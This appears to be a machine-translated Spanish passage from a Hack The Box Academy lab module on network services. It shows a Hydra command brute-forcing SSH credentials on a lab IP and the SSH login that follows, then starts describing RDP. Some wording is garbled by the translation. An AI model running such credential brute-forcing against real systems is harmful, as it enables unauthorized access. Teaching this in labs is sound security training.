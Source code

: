 Podemos usar una herramienta como`Hydra`a la fuerza bruta ssh. Esto está cubierto en profundidad en el[Iniciar forcedura de bruto](https://academy.hackthebox.com/course/preview/login-brute-forcing)módulo.

Servicios de red

```
xnoxos@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found

```

Para iniciar sesión en el sistema a través del protocolo SSH, podemos usar el cliente OpenSSH, que está disponible de forma predeterminada en la mayoría de las distribuciones de Linux.

Servicios de red

```
xnoxos@htb[/htb]$ ssh user@10.129.42.197The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.

user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>

```

---

# **Protocolo de escritorio remoto (RDP)**

Microsoft's[Protocolo de escritorio remoto](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) es un protocolo de red que permite el acceso remoto a los sistemas de Windows a través de`TCP port 3389`por defecto. RDP proporciona a los usuarios y a los administradores/personal de soporte acceso remoto a los hosts de Windows dentro de una organización. El protocolo de escritorio remoto define a dos participantes para una conexión: un llamado servidor terminal, en el que se lleva a cabo el trabajo real y un cliente terminal, a través del cual el servidor terminal está controlado de forma remota. Además del intercambio de imágenes, sonido, teclado y dispositivo de señalización, el RDP también puede imprimir documentos del servidor terminal en una impresora conectada al cliente terminal o permitir el acceso a los medios de almacenamiento disponibles allí. Técnicamente, el RDP es un protocolo de capa de aplicación en la pila IP y puede usar TCP y UDP para la transmisión de datos. El protocolo es utilizado por varias aplicaciones oficiales de Microsoft, pero también se usa en algunas soluciones de terceros.
